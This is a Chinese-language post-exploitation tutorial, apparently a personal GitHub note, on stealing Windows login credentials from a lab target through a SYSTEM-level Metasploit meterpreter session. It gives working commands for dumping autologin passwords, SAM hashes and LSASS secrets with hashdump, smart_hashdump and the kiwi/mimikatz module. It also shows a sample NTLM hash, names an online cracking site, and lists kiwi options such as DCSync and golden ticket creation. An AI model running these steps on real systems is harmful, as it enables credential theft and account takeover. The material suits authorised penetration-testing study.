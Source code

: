 # 一、环境准备

1 MSF-Metasploit Framework

2 一台windiows靶机

# 二、实战

首先获得一个有SYSTEM权限的meterpreter

![[1644493974746.png]]

1 抓取自动登录账户密码

2 导出SAM数据库本地账户密码文件

3 导出密码哈希

4 使用kiwi模块获取

---

1  很多人喜欢给在计算机设置自动登录 我们可以通过抓取自动登录的账户密码

run windows/gather/credentials/windows_autologin

如果提示这证明本机并没有配置自动登录

![[1644493985741.png]]

2  还可以通过导出SAM数据库中的本地用户账号（注意需要提权到SYSTEM）

run post/windows/gather/smart_hashdump



| 用户名 | SID  | LM哈希:                          | NTLM哈希1:::                     |
| ------ | ---- | -------------------------------- | -------------------------------- |
| mb     | 1000 | aad3b435b51404eeaad3b435b51404ee | 32ed87bdb5fdc5e9cba88547376818d4 |

![[1644494007420.png]]

3  使用  hashdump 获取密码（注意需要提权到SYSTEM才能使用）

终端内输入  run hashdump

![1644494019182](后渗透之获取登录账号密码.assets/1644494019182.png)

使用在线解析工具  https://www.cmd5.com/

NTLM哈希 例子：32ed87bdb5fdc5e9cba88547376818d4

![1644494029236](后渗透之获取登录账号密码.assets/1644494029236.png)

4  使用load kiwi（使用kiwi模块需要system权限）

kiwi_cmd 模块可以让我们使用mimikatz的全部功能， mimikatz 的命令直接在kiwi_cmd里直接使用

5.1 终端输入  load kiwi

5.2 creds_all  直接获取密码

![1644494040171](后渗透之获取登录账号密码.assets/1644494040171.png)

5.3 使用  kiwi_cmd sekurlsa::logonpasswords  获取密码

![1644494050257](后渗透之获取登录账号密码.assets/1644494050257.png)

| ID   | kiwi参数和描述                                         |
| ---- | ------------------------------------------------------ |
| 1    | creds_all：列举所有凭据                                |
| 2    | creds_kerberos：列举所有kerberos凭据                   |
| 3    | creds_msv：列举所有msv凭据                             |
| 4    | creds_ssp：列举所有ssp凭据                             |
| 5    | creds_tspkg：列举所有tspkg凭据                         |
| 6    | creds_wdigest：列举所有wdigest凭据                     |
| 7    | dcsync：通过DCSync检索用户帐户信息                     |
| 8    | dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID  |
| 9    | golden_ticket_create：创建黄金票据                     |
| 10   | kerberos_ticket_list：列举kerberos票据                 |
| 11   | kerberos_ticket_purge：清除kerberos票据                |
| 12   | kerberos_ticket_use：使用kerberos票据                  |
| 13   | kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令 |
| 14   | lsa_dump_sam：dump出lsa的SAM                           |
| 15   | lsa_dump_secrets：dump出lsa的密文                      |
| 16   | password_change：修改密码                              |
| 17   | wifi_list：列出当前用户的wifi配置文件                  |
| 18   | wifi_list_shared：列出共享wifi配置文件/编码            |
